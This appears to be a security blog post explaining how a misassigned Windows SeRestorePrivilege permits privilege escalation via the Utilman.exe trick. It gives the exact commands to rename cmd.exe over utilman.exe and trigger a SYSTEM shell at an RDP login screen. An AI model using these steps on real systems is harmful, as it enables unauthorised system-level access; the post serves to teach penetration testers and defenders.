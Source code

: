 ```yaml
---
title: Abusing privileges in Active Directory - SeRestorePrivilege
published: true
---
```


According to Microsoft, SeRestorePrivilege is utilized to grant write access within the file system, effectively bypassing Access Control Lists (ACLs) during file copying or modification. If this privilege is erroneously assigned to an account, malicious actors could exploit it to gain unauthorized access or elevate their privileges. A prevalent method for achieving privilege escalation involves exploiting Utilman.exe.

Utilman.exe, which stands for "Utility Manager," is a core Windows executable designed to aid users with disabilities by providing accessibility features. Operating with system-level privileges, Utilman.exe facilitates tasks such as launching accessibility tools at the login screen. However, this elevated access also makes it a potential target for exploitation. Attackers can replace Utilman.exe with an executable of their choice, such as cmd.exe (Command Prompt), effectively bypassing standard authentication mechanisms. This tactic grants them unrestricted access to execute commands with full system privileges. While legitimate for aiding users, such as in password recovery scenarios, this exploit can be abused by attackers seeking to compromise system integrity and security.

## Experiment

When SeRestorePrivilege is observed among a user's privileges, one might attempt to enable this privilege using a script like [EnableSeRestorePrivilege](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1) . Once enabled, the Utilman.exe trick can be implemented for privilege escalation to the NT system level. This technique involves renaming cmd.exe to utilman.exe and then initiating a remote desktop session to the Windows machine to trigger the graphical user interface (GUI) login.

It's important to note that modifications such as renaming executables may be flagged and prevented by Windows Defender or other antivirus software or rejected by full disk encryption, which could detect such actions as suspicious or malicious. Upon reaching the login interface, pressing WIN + U can launch the command interface via Utilman.exe, now with system-level privileges.

```powershell
PS C:\Users\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

rename-item C:\Windows\system32\utilman.exe C:\Windows\system32\utilman.old
rename-item C:\Windows\system32\cmd.exe C:\Windows\system32\utilman.exe

rdesktop 192.168.155.165
WIN + U
```

![](../assets/images/2024-06-15-Abusing-Privileges-In-Active-Directory/rdp.png)

## Reference:

> https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges
